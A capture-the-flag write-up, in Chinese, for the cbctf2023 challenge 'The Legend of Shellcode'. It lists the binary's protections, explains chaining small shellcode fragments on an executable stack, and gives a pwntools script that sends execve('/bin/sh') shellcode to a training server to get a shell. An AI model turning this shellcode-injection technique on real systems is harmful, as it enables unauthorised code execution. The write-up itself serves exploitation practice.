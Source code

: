 ```yaml
---
title: cbctf2023 - The Legend of Shellcode
date: 2024/4/22 00:35:00
tags:
    - shellcode
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |off   |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.12|

## 解题思路

nx没开，栈上放了一堆`ret`，一运行就是`pop rip`，那么控制好rsp，就能让rip跳到下一个read的段；
由于我想的是`add rax,0x10;push rax`的方式移动rip，因此读入9字节，只剩4字节空间了，不适合放"/bin/sh"
字符串，因此考虑在初始读入的位置搓一个`SYSCALL_read`出来方便读入完整的shellcode（打newstar ctf打的），
再跳转过去就可以拿到shell

> 赛后交流发现short jmp所耗字节更少，还是疏忽了

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo:int):
    if lo:
        sh = process('./code')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x13b7)')
    else:
        sh = remote('training.0rays.club', 10004)

    # section 1
    shc = asm('''
    push rax
    xor rdi,rdi
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 2
    shc = asm('''
    pop rbx
    mov rdx,r11
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 3
    shc = asm('''
    push rbx
    pop rsi
    push rbx
    xor rax,rax
    syscall
    ret
    ''')
    sh.send(shc)

    # skipping rest
    sh.sendlineafter(b'sh:', b'')
    sh.sendlineafter(b'ht:', b'')
    sh.sendlineafter(b'ul:',b'')
    

    # section SYSCALL_read
    shc = asm('''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor rsi,rsi
    xor rdx, rdx
    push 0x3b
    pop rax
    syscall
    ''')
    sh.sendlineafter(b'ru', shc)

    sh.interactive()
```

